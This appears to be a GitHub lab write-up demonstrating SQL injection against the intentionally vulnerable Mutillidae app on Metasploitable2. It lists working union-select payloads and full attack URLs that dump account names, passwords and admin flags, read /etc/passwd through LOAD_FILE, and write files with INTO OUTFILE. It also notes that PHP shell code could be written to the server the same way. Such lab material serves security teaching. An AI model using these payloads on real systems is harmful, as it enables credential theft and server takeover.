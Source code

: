 Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

![image](https://github.com/Roselineb/sqlinjection/assets/128909895/30f8f39f-fddd-4f6c-b3bf-a915b56397f7)
The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Roselineb/sqlinjection/assets/128909895/b6936361-f4e7-4616-88e1-aebb21e9ae69)
Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Roselineb/sqlinjection/assets/128909895/65a6cfe6-7051-4fd7-a21b-a9472b5d8b29)
## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Roselineb/sqlinjection/assets/128909895/52d8388e-ad3d-4ea5-99ce-bbca199db5e5)
the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).
## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
